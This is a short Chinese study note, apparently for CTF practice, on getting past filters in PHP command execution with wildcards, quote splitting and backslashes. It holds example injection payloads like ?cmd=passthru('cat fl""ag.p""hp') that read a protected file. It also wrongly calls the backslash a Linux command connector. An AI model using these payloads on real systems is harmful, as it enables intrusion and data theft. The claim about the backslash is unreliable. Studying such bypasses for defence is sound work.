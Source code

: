 1. 通配符 ? * 绕过![image-20240315145356631](PHP命令执行.assets/image-20240315145356631.png)
   有多个匹配则全部输出

   ```shell
   通配符是一种特殊语句,主要有问号和星号,用来模糊搜索文件
   ?在linux里面可以进行代替字母.?仅代表单个字符串,但此单字必须存在.
   *在linux里面可以进行模糊匹配.*可以代表任何字符串
   ```

   ![image-20240315145713770](PHP命令执行.assets/image-20240315145713770.png)

2. 单引号 双引号绕过

   ```shell
   ?cmd=passthru('cat fl""ag.p""hp');
   同样可以执行
   或者
   ?cmd=passthru('cat fl\'\'ag.p\'\'hp');反斜杆将单引号的功能性去除了
   ```

3. 反斜杠 \ 绕过

   ```shell
   ?cmd=passthru('cat fl\ag.p\hp');
   在linux里 \ 是命令连接符
   ```

   ![image-20240315150619081](PHP命令执行.assets/image-20240315150619081.png)
